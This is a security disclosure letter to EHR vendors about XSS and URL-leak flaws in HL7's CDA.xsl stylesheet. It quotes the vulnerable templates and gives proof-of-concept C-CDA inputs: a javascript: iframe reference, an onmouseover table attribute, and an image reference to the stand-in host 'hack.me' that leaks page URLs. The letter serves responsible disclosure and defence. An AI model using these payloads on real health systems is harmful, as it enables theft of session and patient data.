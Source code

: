 ﻿### Dear EHR Vendor,

As a medical informatics researcher at Boston Children's Hospital, I'm
writing to share some security considerations pertinent to any EHR that
displays Consolidated CDA documents for Meaningful Use (especially in a Web
browser environment). I would appreciate if you could ensure that the message
below reaches someone on your security team.

Best,

Josh Mandel, MD  
Lead Architect, SMART Platforms  
Harvard Medical School / Boston Children's Hospital  

---

### Dear Security Team,

I'm writing to report *potential security vulnerabilities* in the display of
Consolidated CDA documents. To be clear, I haven't tested whether your EHR
products are vulnerable to the issues below, but I have found that *these vulnerabilities 
affect some production EHR systems*, so I wanted to share this report with
Web-based EHR vendors privately before I describe it in public on the [SMART Platforms
blog](http://smartplatforms.org).

In short, the concern has to do with the use of XSLT "stylesheets" to
display externally-supplied C-CDA documents in the EHR. To be specific:
**the CDA.xsl stylesheet provided by HL7 (which I've seen broadly adopted by many EHR vendors) can  leave EHRs vulnerable to attacks by maliciously-composed documents.**

The "TL;DR" version is: If you're using XSLT stylesheets to render C-CDAs in
your EHR, make sure you understand the security implications. Otherwise you
could be vulnerable to a data breach.

**I would appreciate if you could reply to me** so I can track the dissemination of
this notice. My plan is publish a public blog post on
3/21/2014. If you discover that your system is vulnerable and you need more
time to repair it, please let me know prior to 3/20, and I can delay publication if necessary.

Best,

  Josh Mandel, MD  
  Lead Architect, SMART Platforms  
  Harvard Medical School / Boston Children's Hospital


### Three fundamental attacks

Many vendors appear to be using (slightly tweaked versions of) the
[CDA.xsl](https://github.com/chb/sample_ccdas/blob/master/CDA.xsl) that comes
with HL7's C-CDA release. This provides potential attackers with a highly
visible, leveragable target.

My analysis revealed *at least three ways to craft a malicious C-CDA*. 
The first two vulnerabilities allow the execution of arbitrary JavaScript
code within the C-CDA viewer. For example, **an attacker could steal browser
cookies and application state, and them back to an external server**. The third
vulnerability allows the C-CDA viewer URL to leak to an external server. 

#### 1. Unsanitized `nonXMLBody/text/reference/@value` can execute JavaScript
One opportunity for injection attacks is the default handling of a `nonXMLBody` CDA. 

```
<xsl:template match='n1:component/n1:nonXMLBody'>
  <xsl:choose>
  <!-- if there is a reference, use that in an IFRAME -->
  <xsl:when test='n1:text/n1:reference'>
  <IFRAME name='nonXMLBody' id='nonXMLBody' WIDTH='80%' HEIGHT='600' src='{n1:text/n1:reference/@value}' />
</xsl:when>
```

This means an attacker can execute arbitrary JavaScript by supplying a reference like:


```
<nonXMLBody>
  <text>
    <reference value="javascript:alert(window.parent.location);"/>
  </text>
</nonXMLBody>
```

The XSLT-output HTML rendering would include the following dangerous snippet:

```
  <iframe src="javascript:alert(window.parent.location);"></iframe>
```

#### 2. Unsanitized `table/@onmouseover` can execute JavaScript

A valid C-CDA document is not allowed to provide `table/@onmouseover`
attributes. But if invalid documents are allowed into a system, then the
following permissive "copy all" can be dangerous:

```
<!-- Tables -->
<xsl:template
  match="n1:table/@*|n1:thead/@*|n1:tfoot/@*|n1:tbody/@*|n1:colgroup/@*|n1:col/@*|n1:tr/@*|n1:th/@*|n1:td/@*">
  <xsl:copy>
    <xsl:copy-of select="@*" />
    <xsl:apply-templates />
  </xsl:copy>
```

What this says is: "when you find a `table` in the C-CDA document, just copy
all of its XML attributes right into the rendered document." An attacker can use
this to inject JavaScript in the resulting document. For example, an attacker
could steal cookies and application state, and them back to an external server.

A source C-CDA document would supply a table like:

```
<table 
   onmouseover="alert(window.parent.location);"
   style="height: 100%; width: 100%; position: fixed; left: 0px; top: 0px;">
</table>
```

... and the XSLT-output HTML rendering would contain the source `table` element verbatim.


#### Unsanitized `observationMedia/value/reference/@value` can leak state via HTTP `Referer` headers

Searching CDA.xsl for the term `img`, reveals two places where image tags are
emitted.  Both occur within the `renderMultiMedia` template definition:

```
<xsl:template match="n1:renderMultiMedia">
  <xsl:variable name="imageRef" select="@referencedObject" />
      <!-- snipped for brevity -->
      <xsl:if
        test="//n1:observationMedia[@ID=$imageRef]/n1:value[@mediaType='image/gif' or @mediaType='image/jpeg']">
        <br clear="all" />
        <xsl:element name="img">
          <xsl:attribute name="src"><xsl:value-of
              select="//n1:observationMedia[@ID=$imageRef]/n1:value/n1:reference/@value" /></xsl:attribute>
        </xsl:element>
      </xsl:if>
      <!-- snipped for brevity -->
</xsl:template>
```

By constructing an appropriate `section` in a C-CDA document to act as input to
the template above, an attacker can cause the browser to leak the current page
URL to `https://hack.me`:

```
<text>
  This image loads from an external server...
  <renderMultiMedia referencedObject="MM1"></renderMultiMedia>
</text>
<entry>
  <observationMedia ID="MM1">
    <id root="10.23.4567.345"/>
    <value xsi:type="ED" mediaType="image/jpeg">
      <reference value="https://hack.me/leaked-from-image.png"/>
    </value>
  </observationMedia>
</entry>
```

The XSLT-output HTML rendering would include the potentially dangerous snippet:

```
<img src="https://hack.me/leaked-from-image.png"></img>
```

Each time the document is viewed, the browser sends an HTTP `Referer` header to `hack.me` that inclues the source page URL. This can be dangerous if any private session state is embedded in that URL.
